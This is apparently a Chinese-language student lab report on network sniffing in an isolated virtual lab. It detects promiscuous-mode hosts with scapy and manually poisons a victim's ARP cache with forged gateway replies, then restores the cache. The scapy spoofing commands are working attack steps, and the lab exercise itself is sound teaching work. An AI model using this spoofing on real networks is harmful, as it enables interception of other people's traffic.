 # 第四章网络监听-实验
## 实验环境：
attacker-kali: 08:00:27:50:3e:24/172.16.222.106/eth2
victim-debian: 08:00:27:88:02:45/172.16.222.147/enp0s3
gateway-debian:  08:00:27:2e:6a:ca/172.16.222.1/enp0s10

## 实验一：检测局域网中的异常终端
### 实验过程
- 先将attacker-kali和victim-debian及gateway-debian放在同一局域网当中，
增加attacker-kali网卡intnet2，分配到172.16.222.106
- 查看victim-debian的enp0s3网卡状态：
```
ip link show enp0s3
```
- attacker-kali打开scapy，并promiscping victim-debian
```
sudo scapy
pkt = promiscping("172.16.222.147")
```
- 打开victim-debian enp0s3的promiscous mode
```
su
ip link set enp0s3 promisc on 
```
- attacker-kali 再次promiscping victim-debian
- 关闭victim-debian enp0s3的promiscous mode
```
ip link set enp0s3 promisc off
```
### 结果性证明
- 开关victim-debian的混杂模式
![](chapter4-img/victim-debian-set-promisc-on-off.PNG)
- 观察两次命令输出结果的差异：开启混杂模式的有了回应
![](chapter4-img/attacker-kali-promiscping-debian.png)



## 实验二：手工单步“毒化”目标主机的 ARP 缓存
### 实验过程+结果性证明
- 获取当前局域网的gateway-debian, attacker-kali和victim-debian MAC 地址
```
ip a
```
# attacker-kali scapy构造一个 ARP 请求
```
arpbroadcast = Ether(dst="08:00:27:2e:6a:ca")/ARP(op=1, pdst="172.16.222.1")
```

# 查看构造好的 ARP 请求报文详情
```
arpbroadcast.show()
```

# 发送这个 ARP 广播请求
```
recved = srp(arpbroadcast, timeout=2)
```

- 网关 MAC 地址如下
```
gw_mac = recved[0][0][1].hwsrc
gw_mac
```
- 伪造gateway-debian的 ARP 响应包，准备发送给victim-debian 172.16.222.147，
ARP 响应的目的 MAC 地址设置为attacker-kali的 MAC 地址
```
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.147", hwdst="08:00:27:50:3e:24")
```
- 发送上述伪造的 ARP 响应数据包到受害者主机
```
sendp(arpspoofed)
```

- 在victim-debian上查看 ARP 缓存，查看gateway-debian的 MAC 地址是否被替换为attacker-kali的 MAC 地址
```
ip neigh
```
![](chapter4-img/victim-debian-check-gw-mac.PNG)

- 恢复victim-debian缓存
```
ping 172.16.222.1
ip neigh
```
![](chapter4-img/victim-restore-arp.PNG)

- 伪装网关给受害者发送 ARP 响应
```
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:2e:6a:ca", pdst="172.16.222.147", hwdst="08:00:27:88:02:45")
sendp(restorepkt1, count=100, inter=0.2)
```
- 伪装受害者给网关发送 ARP 响应
```
restorepkt2 = ARP(op=2, pdst="172.16.222.1", hwdst="08:00:27:2e:6a:ca", psrc="172.16.222.147", hwsrc="08:00:27:88:02:45")
sendp(restorepkt2, count=100, inter=0.2)
```
![](chapter4-img/fake-succeed.PNG)
